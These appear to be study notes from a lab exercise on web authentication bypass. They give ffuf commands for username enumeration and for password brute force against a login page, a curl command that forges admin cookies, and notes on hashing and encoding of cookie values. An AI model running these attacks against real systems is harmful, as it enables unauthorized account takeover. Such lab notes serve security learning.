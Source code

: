 1. Username Enumeration
-create a list of valid usernames
-use ffuf tool to see which usernames are already in the system
 
ffuf - w [username list.txt] -X POST -d "username=FUZZ&email=x&passowrd=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u [IP] -mr "username already exists"

-w: selects file location of username list
-X: request method GET/POST/etc..
-d: data to send, FUZZ in place of the username to enumerate
-H: used for adding additional headers to the request
-u: url we are making the request to
-mr: argument is the text on page to lookfor to validate a username

2. Brute Force
-using the valid_usernames, it is possible to attempt a brute force attack login

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.125/customers/login -fc 200

-w: specify word list
W1: list of valid usernames
W2: list of passwords to try
-fc: check for status code
200: Connection/password accepted

3. Logic Flaw - bypass intended logic to gain access

4. Cookie tampering - gain unauthenticated access, access another account or escalate privileges
eg: curl -H "Cookie: logged_in=true; admin=true" [IP]
Hashing: cookie values can be hashed to represent original text - irreversible
hashing methods: md5, sha-256, sha-512, sha1 
List of common hashes: https://crackstation.net
Encoding: generates random text like hashing but reversible
Encoding could be base32 or base64
encode/decode: https://www.base64encode.org 
